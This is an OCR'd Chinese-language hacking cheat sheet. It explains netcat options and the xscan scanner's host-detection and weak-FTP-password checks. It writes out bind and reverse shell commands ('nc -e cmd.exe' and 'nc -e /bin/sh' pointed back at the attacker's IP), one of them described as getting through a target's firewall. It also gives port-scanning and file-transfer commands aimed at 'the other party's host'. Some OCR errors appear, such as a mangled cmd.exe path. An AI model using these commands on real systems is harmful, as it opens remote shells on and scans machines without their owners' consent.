 ```cmd




（二）系统外部命令(均需下载相关工具)： 


1、瑞士军刀：nc.exe 

参数说明： 
-h 查看帮助信息 
-d 后台模式 
-e prog程序重定向，一但连接就执行［危险］ 
-i secs延时的间隔 
-l 监听模式，用于入站连接 
-L 监听模式，连接天闭后仍然继续监听，直到CTR+C 
-n IP地址，不能用域名 
-o film记录16进制的传输 
-p[空格]端口 本地端口号 
-r 随机本地及远程端口 
-t 使用Telnet交互方式 
-u UDP模式 
-v 详细输出，用-vv将更详细 
-w数字 timeout延时间隔 
-z 将输入，输出关掉（用于扫锚时） 
基本用法： 
nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口 
nc -l -p 80 开启本机的TCP 80端口并监听 
nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口 
nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口 
nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口 
高级用法： 
nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止 
nc -L -p 80 > c:/log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:/log.txt 
nc -L -p 80 < c:/honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:/honeyport.txt中内容送入管道中，亦可起到传送文件作用 
type.exe c:/honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:/honeyport.txt中内容送入管道中,亦可起到传送文件作用 
本机上用：nc -l -p 本机端口 
在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K 
nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙 
本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称 
在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机 
备 注： 
| 管道命令 
< 或 > 重定向命令。"<"，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令 
＠ 表示执行＠后面的命令，但不会显示出来（后台执行）；例：＠dir c:/winnt >> d:/log.txt 意思是：后台执行dir，并把结果存在d:/log.txt中 
>与>>的区别 　">"指：覆盖；">>"指：保存到(添加到）。 
如：@dir c:/winnt >> d:/log.txt和@dir c:/winnt > d:/log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果 把第一次的覆盖了。 


#8 八： 
2、扫锚工具：xscan.exe 


基本格式 
xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息 
xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息 
检测项目 
-active 检测主机是否存活 
-os 检测远程操作系统类型（通过NETBIOS和SNMP协议） 
-port 检测常用服务的端口状态 
-ftp 检测FTP弱口令 
```